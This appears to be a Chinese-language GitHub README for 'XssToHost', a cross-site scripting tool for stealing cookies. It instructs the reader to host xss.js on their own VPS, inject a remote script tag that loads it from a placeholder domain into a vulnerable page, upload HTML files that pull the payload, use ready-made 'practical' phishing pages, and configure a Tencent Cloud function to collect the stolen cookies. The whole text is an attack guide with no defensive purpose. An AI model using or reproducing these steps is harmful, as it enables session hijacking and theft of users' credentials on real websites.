 # XssToHost

通过js跨域请求到DNSLOG平台或自己的VPS主机，并实现cookie外带  

## Usage 

1.将xss.js中的http地址改为带有监听功能的服务器，比如DNSLOG或者开了监听的VPS  
2.将xss.js部署在自己的VPS上  
3.当可以打xss时，可用

```html
<script src="http://exmaple.com/xss.js"></script>
```

方式远程加载此文件  
4.如遇到可上传HTML并解析的情况，可将xss.html上传到目标页面，远程加载xss.js  

5.xss2.html与xssfish.html为实战型，修改相关域名直接将html内的语句复制到有xss位置的地方即可  

6.SCFxss.py为腾讯云函数配置文件，直接在云函数中配置即可，触发器为api网关，勾选集成响应，额外的可勾选CORS，并根据官方提示新建相应插件并绑定API即可  
